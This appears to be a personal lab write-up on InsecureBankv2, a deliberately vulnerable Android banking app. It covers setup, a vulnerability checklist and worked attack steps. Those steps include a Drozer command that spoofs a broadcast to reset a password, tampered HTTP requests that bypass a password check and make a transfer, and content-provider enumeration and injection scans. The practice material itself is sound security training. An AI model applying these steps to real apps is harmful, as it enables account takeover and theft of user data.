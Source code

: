 # Insecure Bank v2

## Setup

```
git clone https://github.com/dineshshetty/Android-InsecureBankv2.git
cd AndroLabServer
pip install -r requirements.txt
python app.py
```

Create an AVD using Genymotion.
In virtualbox settings: Adapter1 => Bridged, Adapter2 => NAT
My Genymotion wasn't working, but Android Emulator worked.

-----

Checklist

[ ] Flawed Broadcast Receivers
[ ] Intent Sniffing and Injection
[ ] Weak Authorization mechanism
[ ] Local Encryption issues
[ ] Vulnerable Activity Components
[ ] Root Detection and Bypass
[ ] Emulator Detection and Bypass
[ ] Insecure Content Provider access
[ ] Insecure Webview implementation
[ ] Weak Cryptography implementation
[ ] Application Patching
[ ] Sensitive Information in Memory
[ ] Insecure Logging mechanism
[ ] Android Pasteboard vulnerability
[ ] Application Debuggable
[ ] Android keyboard cache issues
[ ] Android Backup vulnerability
[ ] Runtime Manipulation
[ ] Insecure SDCard storage
[ ] Insecure HTTP connections
[ ] Parameter Manipulation
[ ] Hardcoded secrets
[ ] Username Enumeration issue
[ ] Developer Backdoors
[x] Weak change password implementation

-----

## Flawed Broadcast Receivers

In AndroidManifest.xml, we have this code:

```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
    <intent-filter>
        <action android:name="theBroadcast"/>
    </intent-filter>
</receiver>
```

We see that it uses the class MyBroadCastReceiver.java, so we'll go over the code in that file.

This class takes the phone number and new password from the previous activity.

```
String phn = intent.getStringExtra("phonenumber");
String newpass = intent.getStringExtra("newpass");
```

After searching for the usages of "theBroadcast" we find that it is used in ChangePassword.java as follows:

```
public void broadcastChangepasswordSMS(String phoneNumber, String pass) {
    if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
        System.out.println("Phone number Invalid.");
        return;
    }
    Intent smsIntent = new Intent();
    smsIntent.setAction("theBroadcast");
    smsIntent.putExtra("phonenumber", phoneNumber);
    smsIntent.putExtra("newpass", pass);
    sendBroadcast(smsIntent);
}
```

So if we can create a similar intent in another app, we can change the password of the user by calling the Context.sendBroadcast(Intent) as mentioned in the [BroadcastReceiver](https://developer.android.com/reference/android/content/Context#sendBroadcast(android.content.Intent)) documentation.

```
run app.broadcast.send --action theBroadCast --component com.android.insecurebankv2.MyBroadCastReceiver --extra string phonenumber 1234 --extra newpass ilovethewanted
```

A real-life example example can be found in [this](https://hackerone.com/reports/289000) report.


## Weak change password implementation

Client-side check requires password to be complex, but can be circumvented by intercepting and modifying request through a proxy.

```
POST /changepassword HTTP/1.1
Content-Length: 46
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&newpassword=dinesh
```

-----

# Dynamic Analysis
## Login Screen

Intercepting the request in Burp Suite

```
POST /login HTTP/1.1
Content-Length: 40
Content-Type: application/x-www-form-urlencoded
Host: 10.68.0.181:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&password=Dinesh%40123%24
```

- Trivial SQL injection doesn't work.

## Transfer Screen

Get Accounts

```
POST /getaccounts HTTP/1.1
Content-Length: 40
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&password=Dinesh%40123%24
```

Do Transfer

```
POST /dotransfer HTTP/1.1
Content-Length: 88
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&password=Dinesh%40123%24&from_acc=888888888&to_acc=666666666&amount=2000
```

## Drozer

```
# getting attack surface
dz> run app.package.attacksurface com.android.insecurebankv2
Attack Surface:
  5 activities exported
  1 broadcast receivers exported
  1 content providers exported
  0 services exported
    is debuggable

# content-providers
dz> run app.provider.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  Authority: com.android.insecurebankv2.TrackUserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False

# content-provider URIs
dz> run scanner.provider.finduris -a com.android.insecurebankv2
Scanning com.android.insecurebankv2...
Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider/
Unable to Query  content://com.google.android.gms.games
Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider
Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
Unable to Query  content://com.google.android.gms.games/

Accessible content URIs:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

# content-providers retrieve information

dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
| id | name   |
| 1  | dinesh |
| 2  | dinesh |
| 3  | dinesh |

# content-provider injection
dz> run scanner.provider.injection -a com.android.insecurebankv2
Scanning com.android.insecurebankv2...
Not Vulnerable:
  content://com.android.insecurebankv2.TrackUserContentProvider/
  content://com.google.android.gms.games
  content://com.google.android.gms.games/
  content://com.android.insecurebankv2.TrackUserContentProvider

Injection in Projection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

Injection in Selection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
```

